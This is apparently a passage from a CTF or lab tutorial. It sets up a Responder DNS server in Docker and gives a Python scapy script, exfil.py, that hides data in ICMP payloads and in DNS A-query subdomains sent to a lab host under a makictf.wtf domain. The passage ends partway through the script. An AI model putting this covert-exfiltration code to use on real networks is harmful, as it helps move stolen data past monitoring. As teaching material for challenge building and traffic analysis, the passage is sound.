 And the run.sh script:

```bash
#!/bin/sh

INTERFACE=$(ip a | grep BROADCAST | awk '{print $2}' | sed 's/@.*$//')
cd /responder && ./Responder.py -I $INTERFACE -wrf
```

Time to build and start our docker:

```bash
$ sudo docker build . -t responder && sudo docker run --rm --name responder -t responder
```

2. Client side

For the client, basically your host, you can use the following python script (exfil.py) to generate the malicious traffic:

```python
#!/usr/bin/python3
#-*- coding: utf-8 -*-

from scapy.all import *
import binascii
import base64

destIP = "172.17.0.2"

'''
Exfiltration with ICMP

@param mesg: Input to send through ICMP - C{bytes}
@return: No return, sends packets.
'''
def ping_exf(mesg):
    hex_mesg = str(binascii.hexlify(bytes(mesg, 'utf8')))[2:-1] # Removing of b' at start and ' at end
    n = 16 # Size of block
    list_split = [hex_mesg[i:i+n] for i in range(0, len(hex_mesg), n)] # Split string into list
    for i in range(0,len(list_split)):
        print(list_split[i])
        send(IP(dst=destIP)/ICMP()/list_split[i])

'''
Exfiltration with DNS A requests. Send an archive / file or wathever
splitted into 20 char / packet.
Don't forget to put a responder server on the target. 
Responder will up a DNS server that accept all requests, even wrong one.

@param mesg: Input to send via DNS A requests - C{bytes}
@return: No return, sends packets.
'''
def dns_exf(mesg):
    mesg = base64.b64encode(mesg)
    n = 20
    list_split = [mesg[i:i+n] for i in range(0, len(mesg), n)]
    
    for i in range(0, len(list_split)):
        print(str(list_split[i])[2:-1])
        part = ("%s.makictf.wtf" % str(list_split[i])[2:-1])
        sr1(IP(dst=destIP)/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname=part)),verbose=0)

if __name__ == "__main__":
    key_archive = "The key of the encrypted archive is: CyberMoocMooc"
    
```